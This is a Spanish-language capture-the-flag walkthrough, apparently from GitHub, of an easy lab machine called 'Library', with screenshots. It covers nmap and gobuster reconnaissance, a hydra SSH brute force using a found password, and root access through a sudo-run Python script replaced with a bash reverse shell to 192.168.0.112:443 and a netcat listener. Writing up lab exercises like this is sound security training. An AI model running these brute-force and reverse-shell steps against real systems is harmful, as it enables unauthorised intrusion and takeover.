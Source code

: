 Maquina: Library

Autor: El Pinguino de Mario

Dificultad: Facil

![Screenshot 2024-11-10 095021](https://github.com/user-attachments/assets/e38d1e1a-0da2-4ea5-a81b-cf7971575d74)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-10 095836](https://github.com/user-attachments/assets/9db11334-2771-4d53-ab1a-17d00925c294)

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2

![Screenshot 2024-11-10 095920](https://github.com/user-attachments/assets/725ad915-97e0-4c3c-a84d-c9e296958b2d)

La pagina web no muestra nada 

![Screenshot 2024-11-10 095947](https://github.com/user-attachments/assets/f2bc7079-211a-4016-9003-d27d2e79a855)

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

Gobuster ha encontrado un index.php

![Screenshot 2024-11-10 100019](https://github.com/user-attachments/assets/ac1721d6-72fb-4827-a1ea-4b7cb711cef8)

Tenemos una posible contraseña

![Screenshot 2024-11-10 100105](https://github.com/user-attachments/assets/880b01ff-f418-40da-b046-af3e13f28644)

Vamos hacer fuerza bruta con hydra al protocolo ssh pasandole un diccionario de usuarios

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

Encontramos el usuario Carlos vamos a ingresar al SSH

![Screenshot 2024-11-10 102450](https://github.com/user-attachments/assets/6597bf51-3c46-46cc-a7e4-c3ad5ab12bd7)

ssh carlos@172.17.0.2

![Screenshot 2024-11-10 102612](https://github.com/user-attachments/assets/61f0bbdc-1200-4c8c-a07a-f2a99639a74e)

ejecutamos el comando sudo -l para ver si tenemos premisos especiales

![Screenshot 2024-11-10 102635](https://github.com/user-attachments/assets/39103abb-ceef-4f98-90c1-639d0c8c9892)

Vamos al directorio y listamos para ver los permisos

cd /opt
ls -la

![Screenshot 2024-11-10 102707](https://github.com/user-attachments/assets/f4394756-9704-471e-8df6-e32333be106c)

Lo que podemos cambiarle el nombre al archivo y crear otro con el mismo nombre pero que un su interior tenga lo siguiente

![Screenshot 2024-11-10 105158](https://github.com/user-attachments/assets/f42e0e52-6500-47c3-8983-94759edaf576)

nano scrip.py

![Screenshot 2024-11-10 104937](https://github.com/user-attachments/assets/b3c34445-b67c-464b-aa58-1525b6b81097)

import os

os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.112/443 0>&1'")

![Screenshot 2024-11-10 104538](https://github.com/user-attachments/assets/0010f295-c6fa-43be-adc0-b86ca49e49e8)

nos ponemos a la escucha con netcat

sudo nc -lnvp 443

![Screenshot 2024-11-10 105037](https://github.com/user-attachments/assets/2197f416-5c25-4fa4-b4ed-1c1d08d30997)

ejecutamos la script con sudo

![Screenshot 2024-11-10 104943](https://github.com/user-attachments/assets/65f2f534-2a60-4584-abd1-7f27108e962c)

sudo /usr/bin/python3 /opt/script.py

whoami

![Screenshot 2024-11-10 105049](https://github.com/user-attachments/assets/e48198a5-c28b-43b1-86cc-f716940fe4c9)
